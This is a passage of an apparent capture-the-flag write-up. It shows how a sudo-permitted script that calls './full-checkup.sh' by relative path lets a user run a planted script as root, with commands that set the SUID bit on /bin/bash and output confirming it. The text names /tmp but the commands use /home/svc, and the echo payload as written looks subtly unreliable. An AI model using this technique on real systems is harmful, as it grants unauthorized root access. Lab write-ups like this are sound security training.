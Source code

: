 There is a new repository available : administrator / scripts

This repository contains the sources of scripts comming with `/opt/scripts/system-checkup.py` we used with `sudo` :

```shell
ls -la /opt/scripts/
```

Result:

```text
total 28
drwxr-xr-x 3 root root 4096 Dec 24 18:23 .
drwxr-xr-x 4 root root 4096 Mar  1 10:46 ..
-rwx--x--x 1 root root  586 Dec 24 21:23 check-ports.py
-rwx--x--x 1 root root  857 Dec 24 21:23 full-checkup.sh
drwxr-x--- 8 root root 4096 Apr  3 15:04 .git
-rwx--x--x 1 root root 3346 Dec 24 21:23 install-flask.sh
-rwx--x--x 1 root root 1903 Dec 24 21:23 system-checkup.py
```

In the script `scripts/system-checkup.py` we can notice :

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

So it will execute `./full-checkup.sh` without control on working directory.

This mean we can execute a script named `./full-checkup.sh` in a current folder if we have write access.

### Privilege Escalation

Let's create a file `/tmp/full-checkup.sh` that containing a payload to set SUID bit on bash:

```shell
cd /home/svc
echo "#!/bin/bash\nchmod +s /bin/bash" > ./full-checkup.sh
chmod +x ./full-checkup.sh
ls -la ./full-checkup.sh
ls -la /bin/bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
ls -la /bin/bash
```

Result:

```text
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
[+] Done!
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
